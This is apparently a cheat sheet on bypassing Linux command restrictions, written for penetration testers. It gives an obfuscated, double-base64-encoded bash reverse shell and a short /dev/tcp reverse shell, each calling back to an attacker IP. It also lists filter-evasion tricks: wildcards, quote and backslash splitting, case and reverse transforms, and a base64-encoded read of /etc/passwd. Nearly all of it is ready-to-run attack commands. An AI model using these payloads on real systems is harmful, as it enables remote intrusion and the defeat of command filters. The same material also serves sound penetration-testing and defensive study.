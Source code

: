 # Bypass Linux Restrictions


## Common Limitations Bypasses

### Reverse Shell

```bash
# Double-Base64 is a great way to avoid bad characters like +, works 99% of the time
echo "echo $(echo 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'
# echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4TkM0NEx6UTBORFFnTUQ0bU1Rbz0K|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h
```
```
### Short Rev shell

```bash
#Trick from Dikline
#Get a rev shell with
(sh)0>/dev/tcp/10.10.10.10/443
#Then get the out of the rev shell executing inside of it:
exec >&0
```
```
### Bypass Paths and forbidden words

```bash
# Question mark binary substitution
/usr/bin/p?ng # /usr/bin/ping
nma? -p 80 localhost # /usr/bin/nmap -p 80 localhost

# Wildcard(*) binary substitution
/usr/bin/who*mi # /usr/bin/whoami

# Wildcard + local directory arguments
touch -- -la # -- stops processing options after the --
ls *
echo * #List current files and folders with echo and wildcard

# [chars]
/usr/bin/n[c] # /usr/bin/nc

# Quotes
'p'i'n'g # ping
"w"h"o"a"m"i # whoami
ech''o test # echo test
ech""o test # echo test
bas''e64 # base64

#Backslashes
\u\n\a\m\e \-\a # uname -a
/\b\i\n/////s\h

# $@
who$@ami #whoami

# Transformations (case, reverse, base64)
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi") #whoami -> Upper case to lower case
$(a="WhOaMi";printf %s "${a,,}") #whoami -> transformation (only bash)
$(rev<<<'imaohw') #whoami
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==) #base64

```